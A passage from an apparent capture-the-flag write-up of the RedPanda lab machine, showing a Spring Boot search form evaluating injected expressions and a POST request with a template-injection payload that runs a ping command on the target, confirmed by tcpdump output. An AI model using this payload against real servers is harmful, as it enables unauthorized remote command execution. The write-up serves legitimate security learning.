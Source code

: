 ```http
Content-Type: text/html;charset=UTF-8
Content-Language: en-US
Date: Wed, 03 Aug 2022 10:47:20 GMT
Connection: close
Content-Length: 735

<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <meta charset="utf-8">
    <title>Red Panda Search | Made with Spring Boot</title>
    <link rel="stylesheet" href="css/search.css">
  </head>
  <body>
    <form action="/search" method="POST">
    <div class="wrap">
      <div class="search">
        <input type="text" name="name" placeholder="Search for a red panda">
        <button type="submit" class="searchButton">
          <i class="fa fa-search"></i>
        </button>
      </div>
    </div>
  </form>
    <div class="wrapper">
  <div class="results">
    <h2 class="searched">You searched for: ??49_en_US??</h2>
      <h2>There are 0 results for your search</h2>
       
    </div>
    </div>
    
  </body>
</html>
```
As we can see we get the expression evaluated and we can see `49` in the response.  
Now we can test for blind code execution and see if we can trigger code execution from this SSTI injection:  
```http
POST /search HTTP/1.1
Host: 10.10.11.170:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 70
Origin: http://10.10.11.170:8080
Connection: close
Referer: http://10.10.11.170:8080/stats?author=woodenk
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

name=*{T(java.lang.Runtime).getRuntime().exec('ping+-c+1+10.10.14.9')}
```
As we can see on the `tun0` interface we get `icmp` requests:  
```shell
[root@kali RedPanda ]$ tcpdump -nettti tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
 00:00:00.000000 ip: 10.10.11.170 > 10.10.14.9: ICMP echo request, id 3, seq 1, length 64
 00:00:00.000035 ip: 10.10.14.9 > 10.10.11.170: ICMP echo reply, id 3, seq 1, length 64
```
